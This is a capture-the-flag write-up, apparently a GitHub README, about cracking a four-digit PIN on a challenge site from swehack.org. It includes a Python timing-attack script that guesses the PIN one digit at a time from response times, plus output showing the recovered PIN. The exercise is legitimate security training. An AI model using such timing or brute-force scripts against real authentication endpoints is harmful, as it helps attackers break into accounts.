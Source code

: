 This was the last step of a challenge that grocid published @ swehack.org

https://oppnakarnan.cf/debugterminal3/console_346j7.php?username=core&pin=

So it was obvious we needed the correct pin and grocid left a hint 'take the time to get to the next step'.

I actually wrote a brute force script starting from 1000, i guessed the pin was four digits and started the script, went to work and when I got home the script had found the correct pin.

However, this was not the "correct" way, I could use a timing attack instead and crack the pin in a couple of minutes, and this is good training for me :)

```
import requests
import time


def brutepin(pin):
        payload = {"username": "core", "pin" : pin}
        start = time.time()
        r = requests.get('https://oppnakarnan.cf/debugterminal3/console_346j7.php', params=payload)
        r.content  
        roundtrip = time.time() - start 
        resp.append(roundtrip)

def testpin(pin):
        r = requests.get('https://oppnakarnan.cf/debugterminal3/console_346j7.php?username=core&pin='+pin)      
        if not "Incorrect password" in r.text:
                print "[+] correct pin",pin
                return True

pin = p =""
found = False
for y in range(8):
        resp = []
        for n in range(10):
                p = pin
                p += str(n)
                brutepin(p)
        p = min(resp)
        p = resp.index(p)        
        pin += str(p)
        if testpin(pin) == True:
                break
```                
credz to grocid for an awesome challenge
grocid.net

Output:
```
root@lola:~/Desktop/grocid# python brute.py 
[+] correct pin 7771
```

